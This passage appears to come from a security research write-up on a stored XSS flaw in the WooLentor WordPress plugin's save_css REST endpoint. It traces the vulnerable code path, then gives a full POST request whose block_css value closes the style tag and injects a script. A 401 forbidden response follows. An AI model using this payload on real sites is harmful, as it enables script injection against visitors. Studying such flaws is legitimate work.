 There are multiple results, but since we're analyzing the **REST API** feature, focus on the **Api.php** file.

`register_routes( $namespace )` in `Manage_Styles` requires the `$namespace` parameter, so `woolentor/v1` is likely passed in by the class instantiation in Api.php. Search for `Manage_Styles` in Api.php to confirm.

![Call Api](callapi.png "Call Api")

The namespace is indeed called and passed that way.

👉 Therefore, sending a **POST** to `http://localhost/wp-json/woolentor/v1/save_css` will invoke the `save_block_css` callback to add/update block CSS in the file and database. When visiting a post whose `post_id` has saved block CSS, `generate_inline_css` will retrieve the block CSS and inline it inside a `<style type="text/css"></style>` tag in the post.

## Exploit

### Detect XSS

Use a user with the **contributor** role to create any post and note its ID.

Send a **POST** request to `http://localhost/wp-json/woolentor/v1/save_css` with an XSS payload:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

